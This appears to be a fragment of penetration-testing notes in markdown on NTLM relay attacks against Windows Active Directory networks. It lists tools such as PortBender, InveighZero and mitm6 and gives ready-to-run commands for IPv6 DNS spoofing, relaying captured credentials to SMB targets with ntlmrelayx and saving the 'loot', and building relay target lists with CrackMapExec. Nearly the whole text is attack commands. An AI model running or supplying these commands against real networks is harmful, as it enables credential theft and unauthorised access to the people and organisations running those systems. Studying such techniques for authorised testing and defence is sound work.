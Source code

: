 - Through Cobalt Strike:
	- https://github.com/praetorian-inc/PortBender
- Through .NET
	- https://github.com/Kevin-Robertson/InveighZero
- MITM6 - Spoof IPv6 and relay requests to targets
	- `mitm6 -d <domain.local>`
	- `ntlmrelayx.py -6 -wh 192.168.1.1 -t smb://192.168.1.2 -l ~/tmp/`
		- `-6` specifies ipv6, `-wh` specifies where the WPAD file is hosted at (your IP usually). `-t` specifies the target, or destination where the credentials will be relayed. `-l` is to where to store the loot.
- Generate list of relay targets (SMB signing disabled)
	- `cme smb scope.txt --gen-relay-list relay.txt`
- Basic NTLM Relay
	- `impacket-ntlmrelayx -t <target> -smb2support`
	- With targets file
		- `impacket-ntlmrelayx -tf relay.txt -smb2support`

- NTLM Relay to AD CS HTTP Endpoints - see ADCS section